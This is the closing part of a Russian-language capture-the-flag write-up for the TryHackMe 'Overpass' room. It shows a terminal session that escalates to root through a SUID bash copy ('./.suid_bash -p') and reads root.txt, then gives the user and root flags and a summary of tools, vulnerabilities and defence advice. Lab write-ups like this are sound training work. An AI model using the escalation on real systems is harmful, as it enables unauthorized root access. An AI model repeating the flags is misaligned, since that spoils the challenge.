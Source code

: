 Повышаю привилегии
```
james@overpass-production:/home/james$ ./.suid_bash 
.suid_bash-4.4$ id
uid=1000(james) gid=1000(james) groups=1000(james),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
.suid_bash-4.4$ cd /root
.suid_bash: cd: /root: Permission denied
.suid_bash-4.4$ exit
exit
james@overpass-production:/home/james$ ./.suid_bash -p
.suid_bash-4.4# id
uid=1000(james) gid=1000(james) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),1000(james)
.suid_bash-4.4# cd /root
.suid_bash-4.4# pwd
/root
.suid_bash-4.4# ls -la
total 28
drwx------  4 root root 4096 Jul 22  2020 .
drwxr-xr-x 23 root root 4096 Aug 14  2020 ..
lrwxrwxrwx  1 root root    9 Jul 21  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwxr-xr-x  3 root root 4096 Jul 22  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 Jul 21  2020 .ssh
-rw-------  1 root root   38 Jul 22  2020 root.txt
.suid_bash-4.4# cat root.txt
thm{d53b2684f169360bb9606c333873144d}
.suid_bash-4.4# 
```


## 🏁 Флаги

- User flag: thm{d119b4fa8c497ddb0525f7ad200e6567} 
- Root flag: thm{d53b2684f169360bb9606c333873144d} 

---

## 📋 Резюме

🧰 **Инструменты:**
  - nmap, ffuf, и др.

🚨 **Уязвимости, которые удалось обнаружить:**  
  - Directory Traversal  
  - RCE через уязвимый скрипт  

🛡 **Советы по защите:**
  - Использовать сложные пароли и ограничить число попыток входа
  - Обновлять ПО до актуальных версий
  - Удалять/ограничивать использование SUID-бинарников
  - Настроить логирование и мониторинг системных событий
  - Применять принцип наименьших привилегий


